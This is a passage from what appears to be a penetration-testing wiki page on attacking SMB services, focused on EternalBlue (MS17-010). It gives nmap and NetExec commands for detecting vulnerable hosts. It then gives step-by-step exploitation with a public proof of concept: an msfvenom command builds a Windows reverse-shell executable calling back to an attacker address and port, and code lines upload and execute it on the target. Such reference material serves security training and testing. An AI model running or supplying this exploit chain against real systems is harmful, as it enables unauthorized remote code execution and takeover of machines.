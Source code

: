 ### Execute Remote Commands

{% content-ref url="../../redteam/pivoting/smb-based.md" %}
[smb-based.md](../../redteam/pivoting/smb-based.md)
{% endcontent-ref %}

### Vulnerabilities

{% hint style="info" %}
You may use nmap to scan target for SMB vulnerabilities

```
sudo nmap -p 445 --script="smb-vuln-*" <IP>
```
{% endhint %}

#### EternalBlue - MS17-010

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the SMBv1 server.&#x20;

{% hint style="info" %}
**Windows Vista, Windows 7, Windows 8.1, Windows 10, Windows Server 2008, Windows Server 2012 et Windows Server 2016** versions using **SMBv1** are likely vulnerable if not patched.
{% endhint %}

{% tabs %}
{% tab title="Enumerate" %}
Tools like [nmap](https://github.com/nmap/nmap) can be used to detect the presence of the EternalBlue vulnerability.

```bash
sudo nmap -p 445 --script="smb-vuln-ms17-010" <IP>
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to check if the target is vulnerable to MS17-010.

```bash
netexec smb <IP> -u <USER> -p <PASSWORD> -M ms17-010
```
{% endtab %}

{% tab title="Exploit - worawit" %}
To exploit, we may use the Worawit [PoC](https://github.com/worawit/MS17-010) on GitHub

* first, we have to edit `USERNAME` and `PASSWORD` at the begening of the `zzz_exploit.py` script.
* Second, generate a reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -f exe -a x86 --platform windows -o pwned.exe
```

* Third, we have to edit , he `smb_pwn` function in `zzz_exploit.py`. This is the action taken with the exploit.

```bash
smb_send_file(smbConn, '/home/v4resk/Documents/www/pwned.exe', 'C', '/pwned.exe')
service_exec(conn, r'cmd /c c:\\pwned.exe')
```
